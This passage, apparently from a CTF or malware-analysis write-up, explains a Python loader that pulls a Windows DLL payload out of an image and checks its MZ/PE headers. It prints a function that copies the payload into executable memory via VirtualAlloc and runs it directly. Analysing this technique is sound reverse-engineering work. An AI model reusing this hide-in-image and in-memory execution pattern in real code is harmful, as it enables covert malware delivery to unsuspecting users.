 It just uses the [Python Image Library](https://pillow.readthedocs.io/en/5.1.x/) to parse the image
format and extract the decompressed contents into a single binary string. This is then validated by `is_valid_payl()`:

```python
def is_valid_payl(content):
    if get_word(content) != 23117:
        return False
    next_offset = get_dword(content[60:])
    next_hdr = content[next_offset:]
    if get_dword(next_hdr) != 17744:
        return False
    return True
```

This looks a bit strange until you realise that 23117 is decimal for `0x5a4d` (`'MZ'`) and 17744 is decimal for `0x4550` (`'PE'`).
Clearly the decoded payload is some form of Windows PE executable. We can add a couple of lines to our
script to decode and save the payload. This is done in [fetch_level2.py](./fetch_level2.py), which saves
the payload to the file `level2_payload.dll`. A quick peek in [CFF Explorer][CFF] confirms that
we're looking at a DLL:

![CFF-payload](./CFF-payload.png)

Once the payload has been fetched and decoded, the `main()` function
calls `load_level2()` which in turn uses the `prepare_stage()` function to execute it:

```python
def prepare_stage(content, content_size):
    virtual_buf = kernel_dll.VirtualAlloc(0, content_size, 12288, 64)
    if virtual_buf == 0:
        return False
    res = memmove(virtual_buf, content, content_size)
    if res == 0:
        return False
    MR = WINFUNCTYPE(c_uint)(virtual_buf + 2)
    MR()
    return True
```
